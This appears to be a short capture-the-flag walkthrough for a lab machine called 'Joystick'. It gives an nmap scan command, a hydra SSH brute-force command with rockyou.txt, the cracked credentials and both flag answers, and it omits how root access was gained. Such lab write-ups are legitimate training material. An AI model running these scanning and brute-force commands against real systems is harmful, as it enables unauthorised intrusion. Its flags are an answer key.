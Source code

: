 #JOYSTICK [HARD]

#Mackines ip: 10.10.241.107
	
	cmd: nmap -A -v -p- <ip> 
	open ports:
		21
		80
		22

When we go to the http://ip and check the page source code,we can see there is a message.
	from there we get 
	
		USERNAME - steve
		Weak password ftp+ssh
		ftp not working
		message to Zach

So we can use hydra to bruteforce the credentials.

	hydra -l steve -P rockyou.txt ssh://10.10.241.107

#Results: 

	we got the credentials [steve:changeme]

Now lets ssh the ip..and see whats there
	
	ok..we got our first flag in user.txt 
		ans 1: [flag{is_only_gaem}]
		
So,when go to home we see there is another user named notch.

	In there,we get the final flag root.txt
		ans 2: [flag{poorly_configured_permissions}]


[End of the Game]

